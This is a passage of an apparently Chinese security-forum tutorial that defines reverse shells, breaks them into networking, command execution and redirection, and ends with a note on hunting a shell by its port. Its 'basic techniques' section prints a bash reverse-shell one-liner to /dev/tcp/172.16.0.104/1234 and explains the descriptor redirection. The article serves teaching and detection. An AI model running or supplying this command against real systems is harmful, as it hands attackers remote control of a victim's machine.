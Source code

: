 0x00 定义
=======

受害者由于某种原因**主动**向攻击者发起连接，攻击者可向受害者下发命令并得到命令执行结果，即**为反弹shell**。  
&gt; 某种原因，包括但不限于受害机器运行了远控木马（钓鱼邮件附件），存在RCE漏洞等

0x01 本质
=======

网络通信+命令执行+重定向方式

- **网络通信**：可以使用TCP/UDP/ICMP等协议，TCP协议再细分又可以包含HTTP/HTTPS协议等，UDP包含DNS等；
- **命令执行**：调用shell解释器、glibc库、Syscall等方式实现；
- **重定向**：管道、伪终端、内存文件等

0x02 攻击手法
=========

初级
--

利用系统自带的 shell 进行反弹shell，命令无混淆

### 1. 直接把shell的标准输入、输出、错误重定向到socket中（双向）

bash将标准输出、标准错误输出、标准输入通过socket链接重定向至远程

#### bash

```bash
sh -i >& /dev/tcp/172.16.0.104/1234 0>&1
```

先简单解释一下这个命令的意思  
• `0`:标准输入、`1`:标准输出、`2`:标准错误  
• `r`（可读）、`w`（可写）、`u`（可读+可写）  
• `>&`：标准输出+错误  
• `/dev/tty` 终端、`/dev/pty` 虚拟终端

一开始：

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-09a00efd311771e1e1dbc08ff9c2e9323c1bae05.png)

`>& /dev/tcp/172.16.0.104/1234` 之后

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-608656206fa93b5b33b36088dda8b66146066247.png)

`0>&1`之后

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-c964dd85a6da99b254fa19577ab28715e14cdf32.png)

数据流图如下:

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-a83d382a7f9bf15b8059d692d438354f2bb9f713.png)

通过反弹的端口 1234 去排查shell

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-f25e4ab0ba5b55fb85a391205b07e074a01804c6.png)
